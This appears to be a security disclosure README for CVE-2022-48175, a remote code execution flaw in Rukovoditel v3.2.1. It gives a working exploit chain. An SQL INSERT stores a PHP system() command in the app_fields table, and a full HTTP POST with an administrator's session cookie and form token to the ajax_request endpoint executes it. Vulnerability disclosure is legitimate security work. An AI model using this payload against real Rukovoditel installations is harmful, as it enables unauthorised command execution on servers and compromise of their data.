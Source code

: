 # Rukovoditel v3.2.1 has Remote Code Execution in ajax_request.php
CVE-2022-48175
Author: y1s3m0

vendors: 

- https://www.rukovoditel.net/

- https://sourceforge.net/projects/rukovoditel/files/latest/download

## Payload

database:rukovoditel

In the latest version of Rukovoditel, there is a remote command execution vulnerability that can be exploited simply by combining it with an SQL injection vulnerability. By executing the following command in the database, you can store the command you need. You just need to focus on "id", "type", and "configuration", and make sure that type="fieldtype_ajax_request" and configuration are the PHP command you want to execute.

```sql
INSERT INTO `rukovoditel`.`app_fields`(`id`, `entities_id`, `forms_tabs_id`, `comments_forms_tabs_id`, `forms_rows_position`, `type`, `name`, `short_name`, `is_heading`, `tooltip`, `tooltip_display_as`, `tooltip_in_item_page`, `tooltip_item_page`, `notes`, `is_required`, `required_message`, `configuration`, `sort_order`, `listing_status`, `listing_sort_order`, `comments_status`, `comments_sort_order`) VALUES (999, 23, 28, 0, '', 'fieldtype_ajax_request', 'Subject', '', 1, '', '', 0, '', '', 1, '', '{\"php_code\":\"system(\\"whoami\\")\"}', 3, 1, 3, 0, 0);
```

Then, by obtaining the administrator's "form_session_token" and cookie, you can construct a payload similar to the one below and execute the command stored in the database. Make sure that field_id is the injected id above.

```sql
POST /index.php?module=dashboard/ajax_request&field_id=999 HTTP/1.1
Host: rukovoditel:8082
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9,ja;q=0.8,vi;q=0.7
Content-Length: 35
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: cookie_test=please_accept_for_session; sid=ecvuqrogd8e5v7jvlqr2mvhj5c; app_remember_me=1; app_stay_logged=1; app_remember_user=YWRtaW4%3D; app_remember_pass=JFAkRTRVRnlFMHhGQzYxMlFqWE5KUHJxLzJHck9oUGVTMA%3D%3D; XDEBUG_SESSION=XDEBUG_ECLIPSE
DNT: 1
Origin: http://rukovoditel:8082
Referer: http://rukovoditel:8082/index.php?module=custom_php/code
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest

form_session_token=ih7agGdyZZ
```

![](rce_ajax_request.png)
